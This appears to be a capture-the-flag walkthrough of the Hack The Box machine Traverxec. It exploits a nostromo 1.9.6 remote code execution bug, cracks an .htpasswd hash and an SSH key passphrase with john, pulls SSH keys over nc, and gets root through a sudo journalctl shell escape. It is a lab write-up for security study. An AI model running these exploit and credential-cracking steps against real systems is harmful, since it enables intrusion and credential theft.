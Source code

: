 # Traverxec

## Gaining Access

```
$ nmap -p- --min-rate 5000 10.129.85.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 10:24 EDT
Nmap scan report for 10.129.85.183
Host is up (0.0079s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### David White

Port 80 hosts a Portfolio site for a David White:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Here are the HTTP headers when visiting the site:

```http
HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:25:54 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```

This version of Nostromo has an RCE vulnerability:

```
$ searchsploit nostromo             
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (M | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command | linux/remote/35466.sh
----------------------------------------------------------- ---------------------------------
```

We can verify that it works by running it:

```
$ python2 47837.py 10.129.85.183 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:31:57 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell by using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Public WWW

We can't capture the user flag yet. Within the `/var/nostromo` directory, there are some `conf` folders.

```
www-data@traverxec:/var/nostromo$ ls -la
total 24
drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
drwxr-xr-x  2 www-data daemon 4096 May  4 10:22 logs

www-data@traverxec:/var/nostromo/conf$ ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
```

We can try to crack the hash within `.htpasswd`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:41 DONE (2023-05-04 10:36) 0.02395g/s 253371p/s 253371c/s 253371C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Afterwards, we can read the configuration files.

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

I searched a bit on Nostromo and this configuration, and this:

{% embed url="https://book.dragonsploit.com/web-application-testing/nostromo" %}

Basically, this allows for us to view the user's home directory by accessing `~david`. When accessed, this is what I get:

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

There was also a hint that a `public_www` exists in the user's directory.&#x20;

```
www-data@traverxec:/var/nostromo$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Within this, there was a file that contained SSH Identity files.

```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

I transferred this back to my machine via `nc`, and then opened it with `tar`.&#x20;

```
$ tar zxvf backup.tgz       
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

The `id_rsa` key was password protected, but since we have a password from earlier, we can `ssh2john` > `john` it.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2023-05-04 10:42) 100.0g/s 16000p/s 16000c/s 16000C/s carolina..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can use `openssl` with the password to write it and SSH in.

```
$ openssl rsa -in id_rsa -out decrypted        
Enter pass phrase for id_rsa:
writing RSA key
$ chmod 600 decrypted; ssh -i decrypted david@10.129.85.183
```

### Root Shell

There are some interesting files within the user's home directory.

```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

Here's the `bash` script contents:

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems that the user can execute `sudo` for `journalctl`. Based on GTFOBins, we just need to run this.&#x20;

```bash
sudo journalctl
!/bin/sh
```

However, because we don't have the credentials to run `sudo`, what we can do is execute the `sudo` command and then run `!/bin/sh`.

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
